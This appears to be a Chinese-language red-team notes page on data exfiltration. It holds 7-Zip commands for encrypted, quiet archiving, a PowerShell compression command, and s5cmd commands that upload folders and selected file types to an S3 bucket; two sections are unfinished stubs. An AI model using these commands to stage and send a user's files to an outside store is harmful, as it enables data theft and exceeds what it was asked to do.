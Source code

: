 ```yaml
---
title: "数据外泄技术"
date: "2025-09-02"
draft: false
tags: 
hidden: false
comments: false
---
```


# 数据压缩

## 7Zip
将D:\test文件夹压缩
-p 参数设置密码为Secret
-mhe=on 参数设置加密目录名和文件名
-mx=5 平衡压缩速度与大小
-bd 关闭进度条
-bb0 关闭输出日志
```
& 'C:\Program Files\7-Zip\7z.exe' a -pSecret -mhe=on -mx=5 -bd -bb0 D:\test.7z D:\test
```

## PowerShell
递归压缩 D:\test 目录（包括子目录）
```
Compress-Archive -Path "D:\test\*" -DestinationPath "D:\test.zip"
```


## 数据外泄技术

## Restic
TODO

## BackBlaze (b2.exe)
TODO

## S5cmd
保留目录层次结构并上传到存储桶
```
s5cmd cp D:\test 's3://bucket/test/'
```

将单个文件上传到存储桶
```
s5cmd cp D:\test.zip 's3://bucket/test.zip'
```

将文件后缀为doc和zip的文件上传到存储桶
```
s5cmd cp --include "*.doc" --include "*.zip" D:\test 's3://bucket/test/'
```

